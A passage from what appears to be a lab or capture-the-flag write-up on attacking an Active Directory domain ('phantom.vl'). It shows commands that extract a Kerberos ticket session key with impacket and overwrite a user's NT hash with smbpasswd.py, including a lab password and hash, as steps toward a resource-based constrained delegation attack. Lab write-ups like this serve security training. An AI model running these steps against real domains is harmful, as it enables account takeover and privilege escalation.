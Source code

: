 ![image.png](../images/phantom%2025.png)

Now let’s get the session key

```bash
impacket-describeTicket crose.ccache | grep 'Ticket Session Key'
```

![image.png](../images/phantom%2026.png)

Now let’s change the nt hash of the user

```bash
python3 smbpasswd.py -newhashes :a3a18593413beb0266e62a9a2c16e693 'phantom.vl'/'crose':'remo123$'@'10.10.99.92'
```

![image.png](../images/phantom%2027.png)

Now let’s perform the RBCD
